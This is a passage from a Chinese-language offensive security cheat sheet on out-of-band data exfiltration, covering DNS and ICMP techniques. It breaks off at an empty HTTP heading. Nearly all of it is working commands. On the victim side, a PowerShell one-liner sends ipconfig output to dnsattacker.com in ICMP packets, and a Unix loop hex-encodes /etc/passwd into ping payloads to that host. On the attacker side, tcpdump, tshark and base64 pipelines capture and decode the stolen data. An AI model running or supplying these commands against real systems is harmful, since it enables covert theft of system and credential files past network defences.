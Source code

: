 **攻击者：**  
```
cat file2.txt |tr ' ' '\n' |awk '/file.oob.dnsattacker.com/ {print $1}'|sort -u| cut -d '.' -f 2|tr -d '\n'|base64 -d    # 提取输出
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoE5PLVPqu2YTlgVpg53PFfCR1agBcX4rk8NN1kZX8CXVDHkuzJotQxg/640?wx_fmt=png&from=appmsg "")  
#### ICMP  
##### Windows  
  
**受害者**  
```
cmd /v /c "ipconfig > output.txt && powershell $text=Get-Content output.txt;$ICMPClient = New-Object System.Net.NetworkInformation.Ping;$PingOptions = New-Object System.Net.NetworkInformation.PingOptions;$PingOptions.DontFragment = $True;$sendbytes = ([text.encoding]::ASCII).GetBytes($text);$ICMPClient.Send('dnsattacker.com',60 * 1000, $sendbytes, $PingOptions);
```  
  
**攻击者**  
```
sudo tcpdump 'icmp and src host 202.14.120.xx' -w powericmp.pcap  # 捕获
```  
  
**提取：**  
```
echo "0x$(tshark -n -q -r powericmp.pcap -T fields -e data.data | tr -d '\n' | tr -d ':')" | xxd -r -p   # 或使用 Wireshark GUI
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpogjaFpJzzic2tjrvAIricX1nZ7ax8gQvKwBqw5C84avJ9RhNQx8DUFd3A/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
需要 Powershell  
##### Unix  
  
**受害者：**  
```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 dnsattacker.com;done
```  
  
**攻击者：**  
```
sudo tcpdump  'icmp and src host 202.14.120.xx' -w icmp_file.pcap # 捕获
```  
  
**提取**  
```
echo "0x$(tshark -n -q -r icmp_file.pcap -T fields -e data.data | tr -d '\n' | tr -d ':')" | xxd -r -p   # 或使用 Wireshark GUI
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpo0NdCNM1e1Q5mdUXWahiaNjpWdgAicmNSR1ibaKJJOV9NcSucc6RVTtuKg/640?wx_fmt=png&from=appmsg "")  
#### HTTP  
##### Windows  
  